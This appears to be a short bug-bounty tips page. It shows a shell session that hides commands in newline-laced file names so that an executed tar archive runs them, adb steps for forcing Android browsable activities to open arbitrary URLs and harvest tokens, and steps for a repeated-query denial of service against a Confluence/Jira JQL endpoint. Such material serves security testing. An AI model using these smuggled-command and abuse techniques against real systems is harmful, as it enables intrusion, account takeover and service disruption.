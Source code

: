 ### RCE via .tar File
#### Tip
```sh
thevillagehacker@village:|02:49 PM|~/test$ touch ''$'\n''id;'
thevillagehacker@village:|02:49 PM|~/test$ touch ''$'\n''ls -l;'
thevillagehacker@village:|02:49 PM|~/test$ ls
''$'\n''id;'  ''$'\n''ls -l;'
thevillagehacker@village:|02:49 PM|~/test$ tar -cf run.tar *
thevillagehacker@village:|02:49 PM|~/test$ chmod +x run.tar
thevillagehacker@village:|02:50 PM|~/test$ ./run.tar
uid=1000(hacker) gid=1000(hacker) groups=1000(hacker),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev)
./run.tar: line 2: 0000666000175000017500000000000013735317455011347: command not found
total 12
-rw-rw-rw- 1 hacker hacker     0 Oct  1 14:49 ''$'\n''id;'
-rw-rw-rw- 1 hacker hacker     0 Oct  1 14:49 ''$'\n''ls -l;'
-rwxrwxrwx 1 hacker hacker 10240 Oct  1 14:49  run.tar
./run.tar: line 3: 0000666000175000017500000000000013735317463011661: command not found
```
###### For Better Look
![RCE](img/RCE.png)
### Looking for an easy way to open arbitrary URLs in Android apps?
1. Download jadx decompiler and install adb
2. Open AndroidManifest.xml
3. Find all browser activities (must contain `<category android:name="android.intent.category.BROWSABLE"/>`)
4. Run "adb shell am start -n app_package_name/component_name -a android.intent.action.VIEW -d http://google.com" for each of the activities (or any of your domains). Also track in Burp any requests to http://google.com or your domain
5. If a domain is opened, it means you found a vulnerability! Now inspect the request if it contains any auth tokens (if yes, it means you've got an account takeover!). No? Try different techniques to obtain any PII. In the worst case you will get a reward like for an XSS
6. If you can just open arbitrary links in an app. And use http://google.com (remove the space) in the 4 step.
### Application Level DOS Confluence 7.6.2
1. Direct to site, site.atlassian.net
2. Parameter with following endpoint `/issues/?jql=`
3. Craft any Payload with it and search using jql=
4. Final URL `site.atlassian.Net/issues?jql=<payload-here>`
5. Perform same action for 5000 and more.